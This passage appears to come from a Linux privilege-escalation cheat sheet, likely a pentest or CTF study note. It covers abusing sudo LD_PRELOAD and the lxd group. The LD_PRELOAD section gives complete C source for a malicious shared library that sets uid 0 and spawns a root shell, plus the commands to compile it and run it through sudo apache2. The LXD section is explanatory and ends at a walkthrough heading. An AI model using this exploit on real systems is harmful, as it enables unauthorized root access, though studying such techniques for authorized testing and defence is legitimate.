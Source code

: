 ### Sudo LD_PRELOAD 

A privilege escalation vector to keep an eye out for: sudo can use LD_PRELOAD to load shared libraries. This flag is set and can be set in the `sudoers` file with the `env_keep+` flag. This can be verified with `sudo -l`.

We can take advantage of this (mis)configuration by creating a malicious shared library.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init()
{
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/sh");
}
```

We can compile the library:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

The output file is named `shell.so` - once transferred, we can add the shared library file to the LD_PRELOAD environment variable with the following:
```bash
# We are running apache2 as the user `lucky` which has nopassword sudo permissions.
# Consequently, we can pass the LD_PRELOAD var and sudo execute apache2 as root without a password.
sudo LD_PRELOAD=/tmp/shell.so apache2
```

## LXD Privilege Escalation

LXD is an open source container manager to build and manage Linux containers on a Linux host. LXD uses a container technology called LXC (Linux Containers) and uses a REST API that is accessible over both a UNIX socket locally, and over the network if enabled. The provided LXD client then communicates with the API for actions.

> LXC = userspace interface with the Linux kernel containment features.
> https://linuxcontainers.org/lxc/introduction
>
> LXD = Next Generation system container manager. 
> https://linuxcontainers.org/lxd/introduction/

Linux hosts running LXD might be vulnerable to privilege escalation.
LXD is a root process that performs actions for anyone with write access to the LXD socket. Write access to the socket is provided through the `lxd` group. One example of compromise is to mount the root filesystem of the host container into a container. This permits a low level user direct access to the host root filesystem (such as `/etc`).

### Walkthrough mounting root filesystem
